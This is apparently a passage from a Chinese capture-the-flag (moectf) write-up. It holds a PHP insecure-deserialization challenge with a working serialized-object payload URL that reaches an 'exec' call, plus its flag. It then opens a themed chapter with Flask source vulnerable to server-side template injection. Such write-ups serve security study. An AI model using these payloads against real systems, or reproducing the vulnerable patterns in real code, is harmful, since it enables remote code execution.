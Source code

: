 ```php

if(isset($_GET['person']))
{
    $person = unserialize($_GET['person']);
}
```

```
http://127.0.0.1:56672/?person=O:7:"PersonA":3:{s:4:"name";O:7:"PersonC":3:{s:4:"name";s:4:"exec";s:2:"id";O:7:"PersonB":3:{s:4:"name";s:3:"any";s:2:"id";O:6:"Person":3:{s:4:"name";N;s:2:"id";N;s:3:"age";N;}s:3:"age";N;}s:3:"age";s:3:"xxx";}s:2:"id";s:5:"check";s:3:"age";s:3:"env";}
```

```
moectf{de439502-db1f-64b9-f661-a7900923048e}
```

## 20 第二十章 幽冥血海·幻语心魔

> 断笛中爆出血雾，在空中交织成诡异符阵。另外两名魔修同时喷出本命精血，嘶声吟唱：
>
> "以血为媒，以言为咒——幻语心魔阵，启！"

```python
from flask import Flask, request, render_template, render_template_string

app = Flask(__name__)

@app.route('/')
def index():
    if 'username' in request.args or 'password' in request.args:
        username = request.args.get('username', '')
        password = request.args.get('password', '')

        if not username or not password:
            login_msg = """
            <div class="login-result" id="result">
                <div class="result-title">阵法反馈</div>
                <div id="result-content"><div class='login-fail'>用户名或密码不能为空</div></div>
            </div>
            """
        else:
            login_msg = render_template_string(f"""
            <div class="login-result" id="result">
                <div class="result-title">阵法反馈</div>
                <div id="result-content"><div class='login-success'>欢迎: {username}</div></div>
            </div>
            """)
    else:
        login_msg = ""

    return render_template("index.html", login_msg=login_msg)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```
